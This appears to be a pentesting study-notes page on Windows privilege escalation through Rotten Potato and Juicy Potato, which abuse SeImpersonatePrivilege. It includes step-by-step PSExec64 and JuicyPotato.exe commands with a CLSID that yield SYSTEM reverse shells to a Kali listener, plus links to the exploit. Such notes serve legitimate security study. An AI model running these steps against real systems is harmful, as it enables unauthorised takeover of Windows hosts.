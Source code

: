### <mark style="color:blue;">Rotten Potato</mark>

The original Rotten Potato exploit was identified in 2016. Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user. This was possible because service accounts usually have the “SeImpersonatePrivilege” privilege enabled.

### <mark style="color:blue;">Juicy Potato</mark>

Juicy Potato works in the same way as Rotten Potato, but the authors did extensive research and found many more ways to exploit.&#x20;

Juicy Potato is available here:&#x20;

{% embed url="https://github.com/ohpe/juicy-potato" %}

{% file src="../.gitbook/assets/juicy-potato-master.zip" %}

{% hint style="info" %}
These steps are for Windows 7
{% endhint %}

1. Copy PSExec64.exe and the JuicyPotato.exe exploit executable over to Windows.
2. Start a listener on Kali.
3. Using an administrator command prompt, use PSExec64.exe to trigger a reverse shell running as the Local Service service account:

```
> C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

4. Start another listener on Kali.
5. Now run the JuicyPotato exploit to trigger a reverse shell running with SYSTEM privileges:

```
> C:\PrivEsc\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```

6. If the CLSID ({03ca...) doesn’t work for you, either check this list or run the **GetCLSID.ps1 PowerShell script**.:&#x20;

{% embed url="https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md" %}

### <mark style="color:blue;">SeImpersonatePrivilege</mark>

Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user. This was possible because service accounts usually have the “SeImpersonatePrivilege” privilege enabled.

For most recent Windows builds we can user PrintSpoofer.exe instead JuicyPotato.exe.

#### Access Token Abuse

Abuse is possible if SeImpersonatePrivilege or SeAssignPrimaryPrivilege is enabled.

* Windows CLSIDs: [http://ohpe.it/juicy-potato/CLSID/](http://ohpe.it/juicy-potato/CLSID/)

#### <mark style="color:yellow;">JuicyPotato - All older versions of Windows</mark>
